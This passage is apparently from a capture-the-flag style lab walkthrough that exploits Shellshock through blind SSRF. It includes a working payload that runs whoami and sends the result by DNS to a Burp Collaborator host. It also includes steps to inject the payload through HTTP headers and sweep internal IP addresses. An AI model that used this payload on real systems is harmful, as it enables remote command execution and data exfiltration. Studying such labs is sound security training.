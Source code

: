 ### **3. Preparing the Shellshock Payload**
- Now, we craft a **Shellshock exploit** using the Burp Collaborator domain.

#### **Shellshock Payload:**
```bash
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

#### **What does this do?**
- `() { :; };` → This **triggers Shellshock** (vulnerable Bash execution).
- `/usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN` →  
  - Runs the `nslookup` command.
  - The `whoami` command gets the **current OS username**.
  - The result is sent as a **DNS query** to **Burp Collaborator**.
  - This confirms **command execution on the server**.

---

### **4. Inject the Payload via Burp Intruder**
- **Modify the User-Agent header** to include the Shellshock payload.
- **Modify the Referer header**:
  - Set it to `http://192.168.0.1:8080`
  - Highlight the last **octet** of the IP (`1`) and **add a payload position (`§`)**.
  - This helps test multiple IPs in the **internal network**.
![Screenshot from 2025-01-30 18-48-11](https://github.com/user-attachments/assets/dad067ef-a8af-4c10-863f-b2d4efdffa25)

#### **Why brute-force the last octet?**
- The vulnerable service might be **inside the internal network**.
- By iterating from `192.168.0.1` to `192.168.0.255`, we can target **different internal servers**.

---

### **5. Run the Attack and Check for Out-of-Band Interactions**
- Start Burp Intruder to send requests.
- Go to **Burp Collaborator** and **Poll for interactions**.
- If **DNS interactions appear**, it means:
  - The server executed the **nslookup** command.
  - The **username** was sent as a DNS request.
  - **We achieved RCE** (Remote Code Execution).

---

### **6. Extract the OS Username to Complete the Lab**
- Find the **username** in the Burp Collaborator logs.
- Submit it to complete the lab.

---

## **Why Does This Work?**
1. **Blind SSRF** allows you to make **outbound requests** from the server.
2. **Shellshock** lets you execute **arbitrary commands** via Bash.
3. **Burp Collaborator** detects DNS interactions, proving RCE.
4. **Brute-forcing the last octet** of an internal IP helps explore the internal network.

---
